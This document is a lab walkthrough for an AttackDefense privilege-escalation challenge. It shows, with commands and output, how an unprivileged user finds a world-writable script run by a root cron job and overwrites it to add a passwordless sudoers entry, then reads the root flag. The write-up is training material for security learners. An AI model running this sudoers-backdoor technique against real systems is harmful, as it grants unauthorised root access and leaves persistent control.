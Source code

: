 # 🔬Cron Jobs

### Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Cron Jobs Gone Wild II](https://www.attackdefense.com/challengedetails?cid=77)
>
> * **Cron Jobs** Privilege escalation
> * Already logged on as `student` unprivileged user

```bash
whoami
groups student
ls -l
cat message
```

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> There is a “message” file in the home directory of student user. Only root user has permissions on this file. So, student user can’t even read it.

```bash
cat /etc/passwd
crontab -l
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> `student` user has no privileges and no scheduled cron jobs

### Cron Jobs Identify <a href="#cron-jobs-identify" id="cron-jobs-identify"></a>

* Find if a file with the same name exists on the system.

```bash
find / -name message
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<pre class="language-bash"><code class="lang-bash">grep -rnw /usr/ -e "/home/student/message"
<strong>    /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
</strong></code></pre>

* The file has been copied into the /tmp directory

```bash
cat /tmp/message
    Hey!! you are not root :(
```

* Observe that a file with the same name is present in `/tmp` directory. On checking closely, it is clear that this file is being overwritten every minute.

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* This means there is some script/binary which is copying this file from student home directory to /tmp directory. Search for that script. If this script is doing simple copy operation, it must have source destination of the file in it. Try to locate that by using grep command.

```bash
grep -nri "/tmp/message" /usr/
    /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
    /usr/local/share/copy.sh:3:chmod 644 /tmp/message
```

* Check `copy.sh` privileges

```bash
ls -al /usr/local/share/copy.sh
	-rwxrwxrwx 1 root root 74 Sep 23  2018 /usr/local/share/copy.sh
```

```bash
cat /usr/local/share/copy.sh
    #! /bin/bash
    cp /home/student/message /tmp/message
    chmod 644 /tmp/message
```

* As the script file is writable by current “student” user, it can be modified to execute our commands. This script is executed by root cron job, so it can do privileged operation.&#x20;
* But, the file can’t be modified directly as there is no text editor on the system.

```bash
vim /usr/local/share/copy.sh
bash: vim: command not found
student@attackdefense:~$ vi /usr/local/share/copy.sh
bash: vi: command not found
student@attackdefense:~$ nano /usr/local/share/copy.sh
bash: nano: command not found
```

### Privesc <a href="#privesc" id="privesc"></a>

* Every user account has read/write/execute permissions on the `copy.sh` script
* The script is writable by the `student` user. Modify the script to execute a command (`e.g.` a_dding **student** to `sudoers` file_).
  * When the script is executed by `root` cron job (_every 1 min for this lab_), it will run commands with pivileged permissions
  * No text editors available in the lab
* Use `printf` to replace the original code with the following lines

```bash
printf '!#bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
student@attackdefense:~$ cat /usr/local/share/copy.sh
!#bin/bash
echo "student ALL=NOPASSWD:ALL" >> /etc/sudoersstudent@attackdefense:~$
```

* Check current sudoers list

```bash
sudo -l
    Matching Defaults entries for student on attackdefense:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User student may run the following commands on attackdefense:
        (root) NOPASSWD: /etc/init.d/cron
```

* There are no new entries. So, wait for 1 minute (i.e. the cron job runs every 1 minute) and check the sudoers list again. This time new entry is there.

```bash
sudo -l
    Matching Defaults entries for student on attackdefense:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User student may run the following commands on attackdefense:
        (root) NOPASSWD: /etc/init.d/cron
        (root) NOPASSWD: ALL
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Switch to the root user using `sudo su`and collect the flag from the root directory.

```bash
sudo su
root@attackdefense:/home/student# whoami
root
root@attackdefense:/home/student# cd /root
root@attackdefense:~# ls -l
total 4
-rw-r--r-- 1 root root 33 Nov  2  2018 flag
root@attackdefense:~# cat flag
697914df7a07bb9b718c8ed258150164
```

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `697914df7a07bb9b718c8ed258150164`
{% endhint %}



